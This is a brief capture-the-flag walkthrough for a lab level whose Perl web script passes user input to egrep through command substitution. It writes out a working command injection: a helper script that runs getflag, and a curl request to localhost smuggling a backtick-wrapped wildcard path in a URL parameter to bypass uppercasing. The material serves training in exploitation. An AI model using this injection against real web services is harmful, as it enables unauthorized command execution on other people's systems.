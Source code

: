 ## Walkthrough :

+ This level contain a perl script, that takes two args, (second is not used)
+ it capitalizes the first arguments, than it remove everythings after the first space if found.
+ it passes the variable to egrep, which get executed using a command substitution 
+ i created the script bellow :
```
echo "getflag >> /var/tmp/flag" >> /var/tmp/SCR && chmod 777 /var/tmp/SCR
```
+ and passes it to the perl script using this Command :
```
curl localhost:4646/?x='`/*/*/SCR`' && cat /var/tmp/flag
```